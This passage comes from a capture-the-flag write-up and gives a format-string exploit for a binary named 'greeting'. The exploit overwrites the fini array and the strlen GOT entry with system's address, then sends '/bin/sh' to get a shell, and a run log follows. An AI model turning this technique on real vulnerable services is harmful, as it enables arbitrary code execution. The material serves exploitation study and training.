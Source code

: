 ```

# Establish the format string
payload = ""

# Just a bit of padding
payload += "xx"

# Address of fini array
payload += p32(finiArray)

# Address of fini array + 2
payload += p32(finiArray + 2)

# Address of got entry for strlen
payload += p32(strlenGot)

# Address of got entry for strlen + 2
payload += p32(strlenGot + 2)

# Write the lower two bytes of the fini array with loop around address (getline setup)
payload += "%34288x"
payload += "%12$n"

# Write the lower two bytes of the plt system address to the got strlen entry
payload += "%65148x"
payload += "%14$n"

# Write the higher two bytes of the two address we just wrote to
# Both are the same (0x804)
payload += "%33652x"
payload += "%13$n"
payload += "%15$n"

# Print the length of our fmt string (make sure we meet the size requirement)
print "len: " + str(len(payload))

# Send the format string
target.sendline(payload)

# Send '/bin/sh' to trigger the system('/bin/sh') call
target.sendline('/bin/sh')

# Drop to an interactive shell
target.interactive()
```

With that exploit, we get shell!

```
$   ython3 exploit.py 
[!] Could not find executable 'greeting' in $PATH, using './greeting' instead
[+] Starting local process './greeting': pid 60336
[*] running in new terminal: ['/usr/bin/gdb', '-q', './greeting', '60336', '-x', '/tmp/pwnmn_pac9x.gdb']
[+] Waiting for debugger: Done
len: 59
[*] Switching to interactive mode
Hello, I'm nao!
Please tell me your name... Nice to meet you, xx4\x99\x046\x99\x04T\x9a\x04V\x9a\x04                                                                                                                                                                                                                                                                                                              

. . .
```